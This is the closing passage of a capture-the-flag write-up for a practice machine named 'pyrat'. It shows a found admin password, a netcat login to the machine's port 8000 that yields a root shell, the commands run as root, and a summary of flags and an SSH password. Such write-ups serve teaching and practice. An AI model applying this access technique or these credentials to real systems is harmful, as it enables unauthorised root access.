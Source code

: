 We obtain the following :

```shell
b'Password:\n'
abc123 : b'Welcome Admin!!! Type "shell" to begin\n'
```

On logging in, I got a root shell and was able to obtain the root flag:

```shell
❯ nc pyrat.thm 8000
admin
Password:
abc123
Welcome Admin!!! Type "shell" to begin
shell

# whoami
whoami
root

# cat root.txt
cat root.txt
ba5ed03e9e74bb98054438480165e221
```

---
## **Summary**

- think user SSH password : \_TH1NKINGPirate$_
- User Flag : 996bdb1f619a68361417cabca5454705
- admin endpoint password : abc123
- Root Flag : ba5ed03e9e74bb98054438480165e221